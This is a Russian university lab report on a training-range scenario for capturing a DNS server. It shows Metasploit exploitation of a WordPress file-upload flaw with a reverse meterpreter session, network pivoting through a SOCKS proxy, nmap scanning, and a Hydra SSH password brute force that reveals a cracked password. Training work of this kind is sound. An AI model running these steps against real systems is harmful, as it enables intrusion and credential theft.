








---
## Author
author:
  name: А. Атанесов, А. Понич, В. Ефремова, А. Касьянов, Б. Тогтохжаф, Д. Дроздова
  affiliation:
    - name: Российский университет дружбы народов
      country: Российская Федерация
      postal-code: 117198
      city: Москва
      address: ул. Миклухо-Маклая, д. 6

## Title
title: "Отчет по лабораторной работе по предмету «Кибер безопасность предприятий»"
subtitle: "Программный комплекс обучения методам обнаружения, анализа и устранения последствий компьютерных атак «Ampire»"
license: "CC BY"
---

# Цель работы

**Сценарий № 5 «Захват DNS-сервера»**

Целью данной лабораторной работы является получение доступа к DNS-серверу во внутреннем сегменте организации и нахождение флага в одной из DNS-записей. Для выполнения сценария требуется активная meterpreter-сессия с узлом в сегменте DMZ. Варианты получения сессии включают использование уязвимостей в корпоративном сайте через модуль `wp_wpdiscuz_unauthenticated_file_upload` и в почтовом сервере через модуль `exchange_proxyshell_rce`.

# Выполнение лабораторной работы

### Способы получения флага. Поиск DNS-сервера

#### Рисунок 1–4: Запуск Metasploit и настройка модуля `wp_wpdiscuz_unauthenticated_file_upload`
Запуск Metasploit с помощью команды `sudo msfconsole`. Выбор модуля `exploit9unix/webapp/wp_wpdiscuz_unauthenticated_file_upload` для эксплуатации уязвимости загрузки файлов без аутентификации на WordPress-сайте.

Настройка параметров модуля: `set rhosts 195.239.174.25` (целевая IP-адреса), `set blogpath /index.php/2021/07/26/hello-world/` (путь к целевой странице), `set lhost 195.239.174.11` (локальный IP для обратного соединения). Команда `run` инициирует атаку, а `route` отображает маршруты для проверки соединения.
 
 
 

#### Рисунок 8: Настройка meterpreter-сессии с почтовым сервером

#### Рисунок 9: Анализ ARP-кеша

#### Рисунок 9–10: Сканирование сети с помощью `ping_sweep`

#### Рисунок 11: Результаты сканирования

#### Рисунок 12: Просмотр маршрутов

#### Рисунок 13: Таблица маршрутизации на MS Exchange

#### Рисунок 14–16: Настройка прокси-сервера
Поиск и выбор модуля `auxiliary/server/socks_proxy`. Настройка параметров в `/etc/proxychains.conf` (добавление прокси 127.0.0.1:1080) и запуск модуля с `set srvport 1080` и `run`.
 
 

#### Рисунок 17: Сканирование портов с помощью Nmap
В новом терминале Kali выполняется `proxychains nmap -n -sT -Pn --top-ports 100 10.10.10.15`. Результаты показывают открытые порты 22 (SSH) и 53 (DNS), идентифицируя 10.10.10.15 как DNS-сервер.

### Bruteforce пароля

#### Рисунок 18–19: Подготовка к атаке
Переход в директорию `/usr/share/wordlists`, выбор словаря `rockyou.txt` и файла `userlist` с именами пользователей (например, `user`).
 

#### Рисунок 20–21: Атака с помощью Hydra
Запуск `proxychains hydra -V -f -l user -P rockyou.txt -t 32 10.10.10.15 ssh`. Успешно подобран пароль `california101` для пользователя `user`.
 

### Рисунок 22 вывод

## Скриншоты

- **Рисунок 1–3**: `sudo msfconsole`, `use exploit9unix/webapp/wp_wpdiscuz_unauthenticated_file_upload`  
- **Рисунок 4–7**: `options`, `set rhosts 195.239.174.25`, `set blogpath /index.php/2021/07/26/hello-world/`, `set lhost 195.239.174.11`, `run`, `route`  
- **Рисунок 8**: `set lhost 195.239.174.11`, `set rhosts 195.239.174.1`, `run`  
- **Рисунок 9**: `meterpreter > arp` (ARP-кеш)  
- **Рисунок 9–10**: `meterpreter > bg`, `msf6 post(multi/gather/ping_sweep) > use 0`, `cat /etc/proxychains.conf`, `set srvport 1080`, `set version 5`, `run`, `options`  
- **Рисунок 11-14**: `proxychains nmap -n -sT -Pn --top-ports 100 10.10.10.15` (результаты)  
- **Рисунок 15**: host: 10.10.10.15 login:user password: california101  
- **Рисунок 17**: proxychains ssh user@10.10.10.15  
- **Рисунок 18**: pwd, cat /etc/hosts
- **Рисунок 19**: Настройка `auxiliary/scanner/ssh/ssh_login`
- **Рисунок 20**: Вывод результата
